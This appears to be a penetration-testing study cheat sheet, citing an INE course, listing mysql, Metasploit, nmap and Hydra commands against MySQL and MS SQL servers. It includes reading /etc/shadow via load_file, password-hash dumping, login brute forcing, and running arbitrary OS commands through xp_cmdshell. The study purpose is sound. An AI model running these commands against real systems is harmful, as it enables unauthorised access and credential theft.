 # SQL

* [mysql](#mysql)
* [Metasploit](#metasploit)
* [nmap](#nmap)
* [Hydra](#hydra)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## mysql
```
mysql -h [IP-ADDRESS] -u [USERNAME]
```
```
show databases;
```
```
use [DATABASE];
```
```
show tables;
```
```
select count(*) from [TABLE];
```
```
select * from [TABLE];
```
```
select load_file("/etc/shadow");
```
```
help
```

***********************************************************************

## Metasploit

### mysql
```
use auxiliary/scanner/mysql/mysql_writable_dirs
```
```
use auxiliary/scanner/mysql/mysql_hashdump
```
```
use auxiliary/scanner/mysql/mysql_login
```
show advanced options:
```
advanced
```

### MS SQL
```
use auxiliary/scanner/mssql/mssql_login
```
```
use auxiliary/scanner/admin/mssql/mssql_enum
```
```
use auxiliary/scanner/admin/mssql/mssql_enum_sql_logins
```
```
use auxiliary/scanner/admin/mssql/mssql_enum_sql_exec
```
```
use auxiliary/scanner/admin/mssql/mssql_enum_domain_accounts
```

***********************************************************************

## nmap

### mysql
* --script=mysql-empty-password
* --script=mysql-info
* --script=mysql-users --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-databases --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-variables --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-dump-hashes --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-query --script-args="query='select * from [TABLE];',username='[USERNAME]',password='[PASSWORD]'"
* --script=mysql-audit --script-args="mysql-audit.username='[USERNAME]',mysql-audit.password='[PASSWORD]',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"

### MS SQL
* --script ms-sql-info
* --script ms-sql-ntlm-info --script-args mssql.instance-port=[PORT]
   * Default port for MS SQL is 1433 
* --script ms-sql-brute --script-args userdb=[WORDLIST-PATH],passdb=[WORDLIST-PATH]
* --script ms-sql-empty-password
* --script ms-sql-query --script-args mssql.username=[USERNAME],mssql.password=[PASSWORD],ms-sql-query.query="SELECT * FROM [TABLE]" -oN [OUTPUT-FILE]
* --script ms-sql-dump-hashes --script-args mssql.username=[USERNAME],mssql.password=[PASSWORD]
* --script ms-sql-xp-cmdshell --script-args mssql.username=[USERNAME],mssql.password=[PASSWORD],ms-sql-xp-cmdshell.cmd="[COMMAND-YOU-WANT-TO-RUN]"

***********************************************************************

## Hydra
```
hydra -l [USERNAME] -P [WORDLIST-PATH] [TARGET-IP] mysql
```

***********************************************************************

### References

Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
